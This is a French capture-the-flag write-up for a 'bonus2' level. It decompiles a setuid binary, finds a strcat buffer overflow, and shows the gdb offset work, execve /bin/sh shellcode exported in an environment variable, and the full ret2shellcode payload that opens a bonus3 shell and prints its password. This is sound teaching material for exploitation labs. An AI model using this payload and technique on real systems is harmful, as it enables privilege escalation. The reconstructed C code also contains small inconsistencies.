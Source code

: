 Je commence par découvrir qui je suis, où je suis, et qu'est-ce qui est à ma disposition :

```bash
$ id && pwd && ls -la
uid=2012(bonus2) gid=2012(bonus2) groups=2012(bonus2),100(users)
/home/user/bonus2
total 17
dr-xr-x---+ 1 bonus2 bonus2   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus2 bonus2  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus2 bonus2 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 bonus3 users  5664 Mar  6  2016 bonus2
-rw-r--r--+ 1 bonus2 bonus2   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus2 bonus2  675 Apr  3  2012 .profile
```

Je tente de lancer le binaire `bonus2` :

```bash
$ ./bonus2
$ ./bonus2 dab
$ ./bonus2 dab itude
Hello dab
$ ./bonus2 dab itude je
```

Sans succès, je me penche dès lors sur la décompilation.

J'utilise [Dogbolt](https://dogbolt.org/?id=2e8bb7ea-1f7b-4c7b-a01b-0ff9afb4fc75#BinaryNinja=114&Reko=89&RetDec=19) afin de décompiler le binaire du `bonus2`, qui a des protections contre la décompilation, mais certains décompilateurs réussissent.

Je recoupe la sortie de `RetDec` avec l'ASM et en extrait le probable code suivant :

```c
int lang = 0;

void greetuser(char *string)
{
    char buffer[64];

    switch (lang)
    {
    case 0:
        strcpy(buffer, "Hello ");
        break;

    case 1:
        strcpy(buffer, "Hyvää päivää ");
        break;

    case 2:
        strcpy(buffer, "Goedemiddag! ");
        break;
    }

    strcat(buffer, string);
    puts(buffer);
}

int main(int argc, char **argv)
{
    char buffer[76];
    char *ret;

    if (argc != 3)
        return 1;

    memset(buffer, 0, 76);
    strncpy(buffer, argv[1], 40);
    strncpy(buffer + 40, argv[2], 32);

    ret = getenv("LANG");
    if (ret != 0)
    {
        if (memcmp(ret, "fi", 2) == 0)
            language = 1;
        else if (memcmp(ret, "nl", 2) == 0)
            language = 2;
    }
    greetuser(buffer);
}
```

En analysant le code ici, je vois un buffer, et me penche donc dessus comme source de vulnérabilité.
J'observe qu'il est d'abord `memset()` à 0 sur 76 bytes, puis se voit inséré 40 bytes du premier argument, puis 32 du second.

Il est ensuité passé à `greetuser()` qui elle va venir `strcat()` le message à notre buffer, ce qui aura pour conséquence de l'overflow.

Je vais utiliser le binaire avec la langue `nl` en changeant la variable env. `LANG` afin que l'overflow soit plus important qu'en anglais. Je commence par trouver le padding nécessaire pour que le buffer overflow et ré-écrive sur l'adresse de retour de `greetuser()` avec `gdb` :

```h
$ gdb ./bonus2 -q
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.
(gdb) disas greetuser
Dump of assembler code for function greetuser:
    ...
   0x08048517 <+147>:   call   0x8048370 <strcat@plt>
   0x0804851c <+152>:   lea    -0x48(%ebp),%eax
   0x0804851f <+155>:   mov    %eax,(%esp)
   0x08048522 <+158>:   call   0x8048390 <puts@plt>
   0x08048527 <+163>:   leave <--------------------- breakpoint avant de leave
   0x08048528 <+164>:   ret
End of assembler dump.

(gdb) b *greetuser+163
Breakpoint 1 at 0x8048527

(gdb) r dab itude
Starting program: /home/user/bonus2/bonus2 dab itude
Hello dab

Breakpoint 1, 0x08048527 in greetuser ()

(gdb) info registers
...
esp            0xbffff600       0xbffff600
ebp            0xbffff658       0xbffff658
...
```

Puis calcule la différence : `0xbffff600 - 0xbffff658 = 0x58 = 88` bytes.

Enfin, je soustrais également le décalage dans la stack de la déclaration du buffer, que l'on voit :

```h
(gdb) disas greetuser
Dump of assembler code for function greetuser:
   0x08048484 <+0>:     push   %ebp
   0x08048485 <+1>:     mov    %esp,%ebp
   0x08048487 <+3>:     sub    $0x58,%esp
   0x0804848a <+6>:     mov    0x8049988,%eax
   0x0804848f <+11>:    cmp    $0x1,%eax
   0x08048492 <+14>:    je     0x80484ba <greetuser+54>
   0x08048494 <+16>:    cmp    $0x2,%eax
   0x08048497 <+19>:    je     0x80484e9 <greetuser+101>
   0x08048499 <+21>:    test   %eax,%eax
   0x0804849b <+23>:    jne    0x804850a <greetuser+134>
   0x0804849d <+25>:    mov    $0x8048710,%edx
   0x080484a2 <+30>:    lea    -0x48(%ebp),%eax <-------------------------- ici
```

Je soustrais donc `0x58 - 0x48 = 0x10 = 16` bytes à 88, et trouve 72 bytes avant d'atteindre `ebp`. J'en rajoute 4 et me trouve donc à l'adresse de retour de `greetuser()`.

Je dois également considérer les 13 bytes ajouté par la string en `nl`, ce qui ajoutera 13 bytes au début de mon buffer.

Le buffer compromis ressemblera donc à :

```
13 bytes du message + 40 du premier arg + 32 du second = 85 bytes
```

Je soustrais donc 9 bytes du second arg afin d'atteindre 76 bytes, soit `13 + 40 + 23 = 76`.

Je vais donc tenter de construire un payload qui permettra d'exploiter `Ret2Shellcode`, de la même manière qu'au `bonus0`.
J'utilise le même [shellcode](https://shell-storm.org/shellcode/files/shellcode-827.html) : `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80` et le stocke de la même manière dans une variable env. :

```bash
$ export BYE=$'\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'
```

Et emploie la même manière que `bonus0` pour trouver son adresse :

```h
$ gdb ./bonus2 -q
Reading symbols from /home/user/bonus2/bonus2...(no debugging symbols found)...done.

(gdb) b main
Breakpoint 1 at 0x804852f

(gdb) r
Starting program: /home/user/bonus2/bonus2

Breakpoint 1, 0x0804852f in main ()

(gdb) x/200s environ
0xbfffff14:      "LANG=nl"
0xbfffff1c:      "BYE=1\300Ph//shh/bin\211\343PS\211\341\260\v\315\200"
...

(gdb) x/100x 0xbfffff1c
0xbfffff1c:     0x42    0x59    0x45    0x3d    0x90    0x90    0x90    0x90
0xbfffff24:     0x90    0x31    0xc0    0x50    0x68    0x2f    0x2f    0x73 <-- début du shellcode
0xbfffff2c:     0x68    0x68    0x2f    0x62    0x69    0x6e    0x89    0xe3
0xbfffff34:     0x50    0x53    0x89    0xe1    0xb0    0x0b    0xcd    0x80
0xbfffff3c:     0x00    0x4c    0x49    0x4e    0x45    0x53    0x3d    0x35
0xbfffff44:     0x31    0x00    0x53    0x48    0x4c    0x56    0x4c    0x3d
0xbfffff4c:     0x34    0x00    0x48    0x4f    0x4d    0x45    0x3d    0x2f
0xbfffff54:     0x68    0x6f    0x6d    0x65    0x2f    0x75    0x73    0x65
0xbfffff5c:     0x72    0x2f    0x62    0x6f    0x6e    0x75    0x73    0x32
0xbfffff64:     0x00    0x4c    0x4f    0x47    0x4e    0x41    0x4d    0x45
0xbfffff6c:     0x3d    0x62    0x6f    0x6e    0x75    0x73    0x32    0x00
0xbfffff74:     0x53    0x53    0x48    0x5f    0x43    0x4f    0x4e    0x4e
0xbfffff7c:     0x45    0x43    0x54    0x49
```

Mon payload devrait donc ressembler à :

```h
"\x90" * 40 + "\x90" * 23 + "\xbf\xff\xff\x24"
^^^^^^^^^^^   ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
1er arg       2eme arg
```

Je l'essaye :

```bash
$ ./bonus2 `python -c 'print("\x90" * 40)'` `python -c 'print("\x90" * 23 + "\xbf\xff\xff\x24"[::-1])'`
Goedemiddag! ���������������������������������������������������������������$���
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
$ exit
```





